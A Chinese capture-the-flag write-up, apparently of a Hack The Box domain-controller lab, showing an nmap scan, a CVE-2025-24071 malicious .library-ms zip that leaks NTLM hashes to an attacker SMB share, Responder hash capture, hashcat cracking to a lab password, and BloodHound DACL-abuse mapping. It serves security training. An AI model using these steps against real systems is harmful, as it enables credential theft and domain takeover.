







# 域渗透，bloodhound利用-先知社区

> **来源**: https://xz.aliyun.com/news/19326  
> **文章ID**: 19326

---

首先信息收集

```
sudo nmap -O -A -Pn -T3 -p- 10.10.11.93
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-10 02:06 UTC

ubuntu@ip-172-31-14-71:~$ sudo nmap -O -A -Pn -T3 -p- 10.10.11.93
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-10 02:15 UTC
Nmap scan report for ip-10-10-11-93.ap-southeast-1.compute.internal (10.10.11.93)
Host is up (0.022s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.2.12)
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
|_http-title: Did not follow redirect to http://nanocorp.htb/
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-11-10 08:49:15Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nanocorp.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.nanocorp.htb
| Subject Alternative Name: DNS:dc01.nanocorp.htb
| Not valid before: 2025-04-06T22:58:43
|_Not valid after:  2026-04-06T23:18:43
|_http-title: Not Found
9389/tcp  open  mc-nmf            .NET Message Framing
49664/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
52169/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
52174/tcp open  msrpc             Microsoft Windows RPC
52199/tcp open  msrpc             Microsoft Windows RPC
56907/tcp open  msrpc             Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (89%)
Aggressive OS guesses: Microsoft Windows Server 2022 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: nanocorp.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-10T08:50:10
|_  start_date: N/A
|_clock-skew: 6h31m51s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   3.59 ms  ip-10-10-16-1.ap-southeast-1.compute.internal (10.10.16.1)
2   12.19 ms ip-10-10-11-93.ap-southeast-1.compute.internal (10.10.11.93)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.44 seconds
```

内容挺多的，然后分析攻击面：大概率是 Microsoft Windows Server 2022，定位为域控制器（DC01.nanocorp.htb），所以先去看看首页web端有什么  
  
首先扫一下目录  
  
可惜没发现什么东西，再去找，功能基本上也都已经查看，并没有什么东西，只能再去找一下其他信息，在首页，点击关于我们，然后点击申请就会发现，会跳转到另外一个域名,这里就出现了一个文件上传的功能，上传之后发现会跳转  
  
跳转之后会显示自动会解压，这个时候就可以去做一个恶意的zip去利用了  


这里就可以用**CVE-2025-24071**，当从.rar存档中提取.library-ms文件时，Windows资源管理器会自动启动SMB身份验证请求，从而导致NTLM哈希披露。用户不需要打开或执行文件——只需提取文件就足以触发泄漏。直接去进行利用

```
python3 poc.py
Enter your file name: exp
Enter IP (EX: 192.168.1.162): 10.10.16.69
completed
ls
README.md	exploit.zip	poc.py
```

这里输入攻击机的ip，然后会自动生成一个exploit.zip恶意zip，首先来查看生产的zip文件

```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\10.10.16.69\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

在上传之前，需要使用responder 对本地进行监听

```
 sudo python3 Responder.py -I tun0 -v
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.16.69]
    Responder IPv6             [dead:beef:4::1043]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-DZWMPGZYR5L]
    Responder Domain Name      [38N3.LOCAL]
    Responder DCE-RPC Port     [45339]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...

[!] Error starting TCP server on port 53, check permissions or other servers running.
[SMB] NTLMv2-SSP Client   : 10.10.11.93
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:cee11bd7e702b1e2:A01391B16E1E85E7A4CEA2DC2D26FF14:0101000000000000003E456A1155DC01C611895F0DB4FA500000000002000800330038004E00330001001E00570049004E002D0044005A0057004D00500047005A005900520035004C0004003400570049004E002D0044005A0057004D00500047005A005900520035004C002E00330038004E0033002E004C004F00430041004C0003001400330038004E0033002E004C004F00430041004C0005001400330038004E0033002E004C004F00430041004C0007000800003E456A1155DC0106000400020000000800300030000000000000000000000000200000600489D706FF7F2945B081B4F5699511518C7A6FC9D4BE299F5C792FDE4C466E0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00360039000000000000000000
[SMB] NTLMv2-SSP Client   : 10.10.11.93
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:2695eca606a72f1f:01598B0BA6D4DC130C9C4A462A96C9F8:0101000000000000003E456A1155DC019204495ECBF8FA6C0000000002000800330038004E00330001001E00570049004E002D0044005A0057004D00500047005A005900520035004C0004003400570049004E002D0044005A0057004D00500047005A005900520035004C002E00330038004E0033002E004C004F00430041004C0003001400330038004E0033002E004C004F00430041004C0005001400330038004E0033002E004C004F00430041004C0007000800003E456A1155DC0106000400020000000800300030000000000000000000000000200000600489D706FF7F2945B081B4F5699511518C7A6FC9D4BE299F5C792FDE4C466E0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00360039000000000000000000
[SMB] NTLMv2-SSP Client   : 10.10.11.93
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:26405153f6324f4e:B32A199F4E8C5FEE0BE205D09178C75A:0101000000000000003E456A1155DC01900A47DE84F993740000000002000800330038004E00330001001E00570049004E002D0044005A0057004D00500047005A005900520035004C0004003400570049004E002D0044005A0057004D00500047005A005900520035004C002E00330038004E0033002E004C004F00430041004C0003001400330038004E0033002E004C004F00430041004C0005001400330038004E0033002E004C004F00430041004C0007000800003E456A1155DC0106000400020000000800300030000000000000000000000000200000600489D706FF7F2945B081B4F5699511518C7A6FC9D4BE299F5C792FDE4C466E0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00360039000000000000000000
[SMB] NTLMv2-SSP Client   : 10.10.11.93
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:589c5d4ffb93ff5b:2C504DABF5373A638D3EAC5B68DBADD9:0101000000000000003E456A1155DC01E9193136A205C1600000000002000800330038004E00330001001E00570049004E002D0044005A0057004D00500047005A005900520035004C0004003400570049004E002D0044005A0057004D00500047005A005900520035004C002E00330038004E0033002E004C004F00430041004C0003001400330038004E0033002E004C004F00430041004C0005001400330038004E0033002E004C004F00430041004C0007000800003E456A1155DC0106000400020000000800300030000000000000000000000000200000600489D706FF7F2945B081B4F5699511518C7A6FC9D4BE299F5C792FDE4C466E0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00360039000000000000000000
[SMB] NTLMv2-SSP Client   : 10.10.11.93
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:0d3b727d0f160b57:7EA5A2D598135B1CAACD682CB910CF1F:0101000000000000003E456A1155DC016A6223C25FBEA53F0000000002000800330038004E00330001001E00570049004E002D0044005A0057004D00500047005A005900520035004C0004003400570049004E002D0044005A0057004D00500047005A005900520035004C002E00330038004E0033002E004C004F00430041004C0003001400330038004E0033002E004C004F00430041004C0005001400330038004E0033002E004C004F00430041004C0007000800003E456A1155DC0106000400020000000800300030000000000000000000000000200000600489D706FF7F2945B081B4F5699511518C7A6FC9D4BE299F5C792FDE4C466E0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00360039000000000000000000
[SMB] NTLMv2-SSP Client   : 10.10.11.93
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:4b15b53e44499188:B2CC3B87BB86B472E6FEEBF038A4DBEA:0101000000000000003E456A1155DC01DFEDCB5BEDD601690000000002000800330038004E00330001001E00570049004E002D0044005A0057004D00500047005A005900520035004C0004003400570049004E002D0044005A0057004D00500047005A005900520035004C002E00330038004E0033002E004C004F00430041004C0003001400330038004E0033002E004C004F00430041004C0005001400330038004E0033002E004C004F00430041004C0007000800003E456A1155DC0106000400020000000800300030000000000000000000000000200000600489D706FF7F2945B081B4F5699511518C7A6FC9D4BE299F5C792FDE4C466E0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00360039000000000000000000
[SMB] NTLMv2-SSP Client   : 10.10.11.93
[SMB] NTLMv2-SSP Username : NANOCORP\web_svc
[SMB] NTLMv2-SSP Hash     : web_svc::NANOCORP:5559e623700974aa:9683B69A6C9F9509DC2EF9AA21F24A51:0101000000000000003E456A1155DC0118066632B7F177DB0000000002000800330038004E00330001001E00570049004E002D0044005A0057004D00500047005A005900520035004C0004003400570049004E002D0044005A0057004D00500047005A005900520035004C002E00330038004E0033002E004C004F00430041004C0003001400330038004E0033002E004C004F00430041004C0005001400330038004E0033002E004C004F00430041004C0007000800003E456A1155DC0106000400020000000800300030000000000000000000000000200000600489D706FF7F2945B081B4F5699511518C7A6FC9D4BE299F5C792FDE4C466E0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00360039000000000000000000
```

监听之后上穿，就可以拿到信息了，首先爆一下hash

```
web_svc::NANOCORP:cee11bd7e702b1e2:A01391B16E1E85E7A4CEA2DC2D26FF14:0101000000000000003E456A1155DC01C611895F0DB4FA500000000002000800330038004E00330001001E00570049004E002D0044005A0057004D00500047005A005900520035004C0004003400570049004E002D0044005A0057004D00500047005A005900520035004C002E00330038004E0033002E004C004F00430041004C0003001400330038004E0033002E004C004F00430041004C0005001400330038004E0033002E004C004F00430041004C0007000800003E456A1155DC0106000400020000000800300030000000000000000000000000200000600489D706FF7F2945B081B4F5699511518C7A6FC9D4BE299F5C792FDE4C466E0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00360039000000000000000000

hashcat -m 5600 1.txt /Users/lbb/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt

hashcat (v7.1.2) starting

METAL API (Metal 370.63.7)
==========================
* Device #01: Apple M4, skipped

OpenCL API (OpenCL 1.2 (Oct 11 2025 00:32:14)) - Platform #1 [Apple]
====================================================================
* Device #02: Apple M4, GPU, 9093/18186 MB (1704 MB allocatable), 10MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimum salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 100c

Host memory allocated for this attack: 687 MB (7301 MB free)

Dictionary cache built:
* Filename..: /Users/lbb/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 0 secs

WEB_SVC::NANOCORP:cee11bd7e702b1e2:a01391b16e1e85e7a4cea2dc2d26ff14:0101000000000000003e456a1155dc01c611895f0db4fa500000000002000800330038004e00330001001e00570049004e002d0044005a0057004d00500047005a005900520035004c0004003400570049004e002d0044005a0057004d00500047005a005900520035004c002e00330038004e0033002e004c004f00430041004c0003001400330038004e0033002e004c004f00430041004c0005001400330038004e0033002e004c004f00430041004c0007000800003e456a1155dc0106000400020000000800300030000000000000000000000000200000600489d706ff7f2945b081b4f5699511518c7a6fc9d4be299f5c792fde4c466e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e00360039000000000000000000:dksehdgh712!@#
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: WEB_SVC::NANOCORP:cee11bd7e702b1e2:a01391b16e1e85e7...000000
Time.Started.....: Fri Nov 14 12:24:18 2025 (0 secs)
Time.Estimated...: Fri Nov 14 12:24:18 2025 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/Users/lbb/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#02........: 34082.4 kH/s (0.13ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1966080/14344384 (13.71%)
Rejected.........: 0/1966080 (0.00%)
Restore.Point....: 1310720/14344384 (9.14%)
Restore.Sub.#02..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#02...: saytin31 -> bragg426
Hardware.Mon.SMC.: Fan0: 0%
Hardware.Mon.#02.: Util: 55% Pwr:72mW

Started: Fri Nov 14 12:24:11 2025
Stopped: Fri Nov 14 12:24:19 2025
```

就成功的拿到了明文密码,这里再去尝试验证，首先因为5986 端口开放，所以尝试去登陆，这里发现没有什么，然后就再去尝试smb

```
smbclient -L //10.10.11.93 -U 'NANOCORP/web_svc%dksehdgh712!@#'
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    IPC$            IPC       Remote IPC
    NETLOGON        Disk      Logon server share 
    SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
```

发现是可以链接的，这里打算直接使用 bloodhound-python 进行利用，但是发现报错，发现是 **Kerberos 时间偏差问题**，所以使用ntpdate 工具进行解决，首先生成配置文件，用于 bloodhound-python 的扫描

```
sudo ntpdate 10.10.11.93 && nxc smb 10.10.11.93 -u 'web_svc' -p 'dksehdgh712!@#' --generate-krb5-file krb5.conf
2025-11-15 07:20:01.853292 (+0000) +7.385000 +/- 0.001113 10.10.11.93 s1 no-leap
CLOCK: time stepped by 7.385000
SMB         10.10.11.93     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:nanocorp.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.10.11.93     445    DC01             [+] krb5 conf saved to: krb5.conf
SMB         10.10.11.93     445    DC01             [+] Run the following command to use the conf file: export KRB5_CONFIG=krb5.conf
SMB         10.10.11.93     445    DC01             [+] nanocorp.htb\web_svc:dksehdgh712!@# 
```

这里就已经成功生成，然后还需要加入

```
export KRB5_CONFIG=/home/ubuntu/krb5.conf
```

加入之后可以使用bloodhound-python去扫描

```
sudo ntpdate nanocorp.htb && bloodhound-python -c All -d nanocorp.htb -u 'web_svc' -p 'dksehdgh712!@#' -ns 10.10.11.93 --zip
2025-11-15 07:18:01.64482 (+0000) +12.551354 +/- 0.001136 nanocorp.htb 10.10.11.93 s1 no-leap
CLOCK: time stepped by 12.551354
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: nanocorp.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.nanocorp.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.nanocorp.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.nanocorp.htb
INFO: Found 6 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.nanocorp.htb
INFO: Done in 00M 05S
INFO: Compressing output into 20251115071802_bloodhound.zip
```

要同步时间所以加入 ntpdate ，扫描结果保存成zip之后拿去给bloodhound 分析  
  
首先，将我们获得凭证的设置为已经拥有的  
  
然后去看最短路径  
  
那么这里，攻击路径也就出来了，是一个三步 DACL滥用路径

```
(WEB_SVC@NANOCORP.HTB) -> AddSelf-> (IT_SUPPORT@NANOCORP.HTB) -> ForceChangePassword -> (MONITORING_SVC@NANOCORP.HTB) -> MemberOf -> (REMOTE MANAGEMENT USERS@NANOCORP.HTB)
```

